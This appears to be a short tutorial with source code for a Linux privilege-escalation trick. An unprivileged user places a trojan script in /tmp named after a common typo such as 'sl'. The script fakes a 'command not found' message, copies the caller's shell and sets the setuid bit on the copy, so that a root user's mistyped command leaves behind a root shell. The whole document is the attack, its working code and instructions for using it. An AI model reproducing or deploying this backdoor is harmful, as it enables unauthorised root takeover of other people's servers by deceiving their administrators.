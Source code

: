 Lets suppose you have ssh access on a server as a testuser .
You can cd on tmp directory and create the following simple script .
The whole idea is to accidentaly make a root user execute our script . This will be possible if we name our executable as a possible wrong command like sl (wrong spelled ls) .
Then we will copy root user's shell to onother executable where we will have access . Executing the new executable  will give us root privilleges.
(assuming the command spelling error happens from a root user , we'll need to wait a bit :P. You can also write multiple scripts with wrong spelled commands )

```
#cd on /tmp as any user without privilleges and create the following script.
#Its important to name your script , as a frequent wrong possible command like sl , mroe etc..
vim sl

#!/bin/bash 
echo "bash: sl not found "
cp $SHELL /tmp/myfile
chmod u+s /tmp/myfile

```
1. echo "bash: sl not found " ---> informs the user that accidentally executed our script that his command was spelled wrong , in order to not be suspicious.
2. cp $SHELL /tmp/myfile ---> copies the user's, that executed our script, bash shell to /tmp/myfile
3. chmod u+s /tmp/myfile -----> enables sticky bit , so if it is a root user we will then execute the new script , as root.

When a root user accidentally types sl instead of ls on /tmp , he runs our executable and the /tmp/myfile is finally created .It is  important to execute the new file  with the -p option to keep the privilleges of the root.

```
cd /tmp
./myfile -p

```

Enjoy your root shell.
